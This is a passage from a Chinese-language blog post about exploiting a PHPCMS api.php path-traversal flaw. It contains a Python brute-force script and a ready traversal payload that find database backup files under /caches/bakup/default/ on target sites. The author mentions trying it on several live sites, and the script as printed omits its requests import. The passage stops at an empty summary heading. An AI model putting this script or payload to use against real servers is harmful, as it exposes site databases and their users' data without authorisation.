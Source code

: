 ```
import itertools
characters = "abcdefghjklmnopqrstuvwxyz0123456789ABCDEFGHIGKLMNOPQRSTUVWXYZ_.-"
backup_sql = ""
payload = "/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/{location}<<"
url = "http://192.168.1.113"
flag = 0
for num in range(1,7):
    if flag:
        break
    for pre in itertools.permutations(characters,num):
        pre = ''.join(list(pre))
        payload = payload.format(location=pre)
        r = requests.get(url+payload)
        if r.status_code == 200 and "PNG" in r.text:
            flag = 1
            backup_sql = pre
            payload = "/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/{location}<<"
            break
        else:
            payload = "/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/{location}<<"
print("[+] 前缀为：",backup_sql)
flag = 0
for i in range(100):
    if flag:
        break
    for ch in characters:
        if ch == characters[-1]:
            flag = 1
            break
        payload = payload.format(location=backup_sql+ch)
        r = requests.get(url + payload)
        if r.status_code == 200 and "PNG" in r.text:
            backup_sql += ch
            print("[+] ",backup_sql)
            payload = "/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/{location}<<"
            break
        else:
            payload = "/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/{location}<<"

print("备份sql文件地址为：",backup_sql+".sql")
```
&#160; &#160; &#160; &#160;这次倒是跑出来了看起来比较完善的文件名了，但是问题又来了，我怎么知道路径呢？这个备份文件到哪儿去找？一开始我也仅仅是看懂了这个代码的意思，没太理解这个payload，就一直在纠结这个问题。
## 问题二：路径问题
&#160; &#160; &#160; &#160;昨天研究了一天，没啥思路，今天就决定亲自操刀，自己本地搭建一个phpcms的测试环境来试试。嘿，还别说，真的就出来了其实路径就是在/caches/bakup/default/这里面，备份数据库文件的路径就是这里面，于是就去测试了一波本地环境的，测试结果如图所示：
[![EDATPK.md.png](https://s2.ax1x.com/2019/05/06/EDATPK.md.png)](https://imgchr.com/i/EDATPK)
[![EDAH2D.md.png](https://s2.ax1x.com/2019/05/06/EDAH2D.md.png)](https://imgchr.com/i/EDAH2D)
[![EDAOrd.md.png](https://s2.ax1x.com/2019/05/06/EDAOrd.md.png)](https://imgchr.com/i/EDAOrd)
&#160; &#160; &#160; &#160;到这里基本就算是成功了，但是还是有几个小问题，那就是python脚本问题，亲自测试了几个站，有的站跑不起来，想了一下，应该是备份文件名有特殊字符的原因，因为脚本定义的字符里面没有满足要求的特殊字符，程序卡在哪儿一直循环，具体情况还在研究，希望哪位兄弟来接着完善一下这个脚本。
## payload
&#160; &#160; &#160; &#160;payload：/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/gv5dmx<<.sql，如果访问这个路径出现一个png图片，则证明漏洞存在。
## 总结